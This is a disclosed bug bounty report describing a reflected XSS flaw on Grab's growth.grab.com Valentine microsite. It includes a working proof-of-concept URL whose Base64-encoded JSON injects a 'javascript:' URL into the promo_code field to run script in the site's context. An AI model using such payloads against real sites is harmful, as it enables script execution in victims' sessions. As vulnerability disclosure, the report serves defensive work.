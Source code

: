 # [growth.grab.com] Reflected XSS via Base64-encoded "q" param on "my.html" Valentine's microsite

## Report Details
- **Report ID**: 320679
- **URL**: https://hackerone.com/reports/320679
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-28T07:28:20.699Z
- **Disclosed**: 2018-03-02T09:03:35.195Z

## Reporter
- **Username**: ysx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grab

## Vulnerability Information
Hi,

An encoded injection in the `q` parameter on `my.html` can be used to reflect JavaScript in the `growth.grab.com` context. This microsite creates a "Grab's Valentine" card for a driver over the past year, and carries its data in Base64 format. 

## Proof of concept

Please visit the following URL, scroll down and select the **Copy** button. To demonstrate JavaScript execution, the `growth.grab.com` context will be displayed in a standard alert box.

```
https://growth.grab.com/valentine/active/my.html?q=eyJuYW1lIjogIlRlc3QgSGFja2VyT25lIiwgInN0YXJ0X2RhdGUiOiAiMDEuMDEuMjAxOCIsICJsZWFucGx1bV9pZCI6ICJ0ZXN0IiwgInJpZGVzIjogIjIwMCIsICJwbGFjZXMiOiAiMjAiLCAiZGlzdGFuY2UiOiA1MDAsICJjYW5jZWxfdGltZXMiOiAiMCIsICJkYXlzIjogIjEwMCIsICJwcm9tb19jb2RlIjogImphdmFzY3JpcHQ6Ly9yLmdyYWIuY29tL3Rlc3QlMGFhbGVydChkb2N1bWVudC5kb21haW4pIiwgInByZl9yZXdhcmQiOiAiMTAifQ==
```

The above proof of concept targets the `promo_code` JSON key to inject an unfiltered JavaScript URL which an adversary could craft to be convincingly like a referral address:

```
{"name": "Test HackerOne", "start_date": "01.01.2018", "leanplum_id": "test", "rides": "200", "places": "20", "distance": 500, "cancel_times": "0", "days": "100", "promo_code": "javascript://r.grab.com/test%0aalert(document.domain)", "prf_reward": "10"}
```
### Supporting evidence

{F267789}

## Verified conditions

At the time of testing, I have successfully confirmed exploitability in the following environment:

* Chrome OS 63.0.3239.140 (Official Build) (64-bit)
* Firefox 59.0b7 stable (32-bit) on Windows 10 x64

Thanks,

Yasin

## Impact

An adversary can leverage this vulnerability in a crafted GET request that, if issued by another Growth user, will cause arbitrary JavaScript code to execute within the target's browser in the context of their web session.

## Attachments
- Growth_Valentines_XSS.png
